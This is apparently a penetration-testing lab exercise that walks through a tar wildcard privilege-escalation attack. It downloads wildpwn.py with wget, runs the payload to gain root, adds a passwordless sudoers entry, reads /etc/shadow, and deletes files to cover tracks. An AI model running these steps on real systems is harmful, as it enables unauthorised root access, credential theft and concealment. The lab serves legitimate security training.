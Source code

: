 ## Exploiting `tar`

In this exercise, you'll play the part of a penetration tester hunting for vulnerabilities in a target system's backup procedures.

- You'll use the `wildpwn.py` tool to verify that the system's current configuration is indeed vulnerable to this kind of privilege escalation attack.

- Then, you'll research and suggest two mitigation strategies to protect the server in the future.

### Instructions

1. Using the following credentials, log in as `jane` and use `sudo -l` to verify that you have no `sudo` rights:

    - Username: `jane`
    - password: `password`

    - Run `su jane`. Use `password` as the password.
    - Run `sudo -l` to confirm that you do not have **super user** privileges.


2. Next, we'll look for automated `tar` backup files that can be exploited. 
  - As `jane`, run `cd ~/Documents`

  - Run `ls -l` to display the archive file, `jane_docs_backup.tar`.

3. Download the [wildpwn.py](https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py) attack tool to your `~/Documents/ExploitTar` directory. Do this from the command line, not the browser.

   - `cd ~/Documents/ExploitTar`

   - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`


4. Use `wildpwn.py` to generate the malicious `tar` payload files within the `/home/jane/Documents/ExploitTar` directory, which is expected to be frequently backed up.

    - Within the `ExploitTar` directory, run `python wildpwn.py tar .` 
    

    -  Run `ls -lat` to display our new payload files

5. Now we wait. 

    - After waiting a minute or two, re-run the `ls` command but with the proper options to see the new hidden subdirectory. 
    
    - Navigate into that subdirectory and list its hidden file. This is the one you'll want to run to execute the `wildcard attack` exploit.

    - Run `ls -lat` 
    - Run `cd .cache` to navigate _into_ the `.cache` directory
    - Run `ls -lat` to display the hidden `.cachefile` exploit file. 
6. Time to run the exploit.  

    - While still in the hidden subdirectory, execute the hidden file within the terminal.

   - Run `./.cachefile`  

7. As `root`, make `jane` a superuser with `sudo` access.  

    - Add `jane` to `/etc/sudoers` by running `visudo`. This will allow our user `jane` to run commands with superuser privileges. Also, specify the `NOPASSWD` rule for this user.

     ```bash
     # User privilege specification
     root    ALL=(ALL:ALL) ALL
     ```

   - Under that `root` permission, add the following line and save the file:  

     ```bash
     jane   ALL=(ALL) NOPASSWD:ALL
 
   - This should allow us to run `sudo` commands as `jane` without having to enter a password.

    - If you're not sure how to do this, there is a similar user set up under `root`'s **specifications**.

8. Let's test the our new privileges and then cover our tracks. 

    - Run `su jane`  

    - Test your `sudo` permissions with:

        - `sudo -l`, and then

        - `sudo cat /etc/shadow` 

     - If you can see the contents of this file, you have successfully carried out a `tar wildcard attack`, turning `jane` into a superuser!

     - Due to how you edited the `visudo` entry above, you shouldn't need to enter your password for this command. Password-less `sudo` permissions allow attackers to rapidly execute elevated instructions on a target machine.

    - Remove the `ExploitTar` directory entirely to cover your tracks.

        - Run `rm -r ~/Documents/ExploitTar`


9. Congratulations! You have successfully executed what is known as a `tar wildcard attack`! This is a more discreet attack that can be carried out on Unix-based operating system with `tar` installed. 